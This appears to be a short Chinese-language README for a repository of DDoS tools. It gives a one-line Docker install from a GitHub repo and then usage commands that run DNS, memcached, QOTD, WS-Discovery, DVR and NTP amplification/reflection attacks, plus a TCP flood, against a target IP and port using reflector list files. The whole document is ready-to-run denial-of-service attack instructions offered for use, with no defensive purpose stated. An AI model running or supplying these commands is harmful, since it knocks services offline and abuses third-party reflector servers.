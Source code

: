 ### 安装 （docker）
apt update -y && apt install docker.io -y && git clone https://github.com/qq1521575701/dd.git && cd dd && docker build -t ddos . && docker run -itd --name ddos --network host ddos:latest && docker exec -it ddos /bin/bash

### 使用
docker exec -it ddos ./dns ip port dns.txt 1 -1 60 &
docker exec -it ddos ./meme ip port meme.txt 1 -1 60
docker exec -it ddos ./qotd ip port qotd.txt 1 -1 60
docker exec -it ddos ./wsd ip port wsd.txt 1 -1 60
docker exec -it ddos ./dvr ip port dvr.txt 1 -1 60
docker exec -it ddos ./ntp ip port ntp.txt 1 -1 60
docker exec -it ddos ./tcp ip port 1 -1 60
